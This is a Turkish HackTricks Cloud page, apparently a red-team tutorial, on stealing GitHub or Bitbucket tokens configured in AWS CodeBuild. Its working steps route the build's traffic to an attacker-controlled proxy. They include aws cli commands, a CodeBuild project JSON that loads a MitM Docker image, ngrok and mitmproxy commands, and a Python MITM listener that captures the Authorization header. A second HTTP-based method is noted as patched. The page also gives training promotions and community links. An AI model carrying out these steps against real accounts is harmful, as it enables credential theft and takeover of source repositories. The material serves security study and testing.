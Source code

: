# AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşın,** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek.

</details>
{% endhint %}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projeyi oluşturmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **env değişkenlerini `https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
* Metadata uç noktasına yapılan istekleri kesmemek için **`http_proxy`**'yu ayarlamayın.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
* Docker görüntüsünü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızdaki MitM proxy'yi ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Yapıyı çalıştırın ve kimlik bilgilerini yakalayın**

*   Token'ı **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, 2023 Şubat ayının 20'si haftasında AWS tarafından bir noktada düzeltildi (sanırım Cuma günü). Bu nedenle bir saldırgan bunu artık kötüye kullanamaz :)**
{% endhint %}

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **koda erişmek için kullanılan geçici OAuth token'ını sızdırabilir**.

* Bir saldırgan, CodeBuild projesine kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Ardından, github reposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Sonra, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) temel örneğini çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin** (base64) olarak mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, makinesinden token'ı kullanabilir, sahip olduğu tüm ayrıcalıkları listeleyebilir ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilir.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
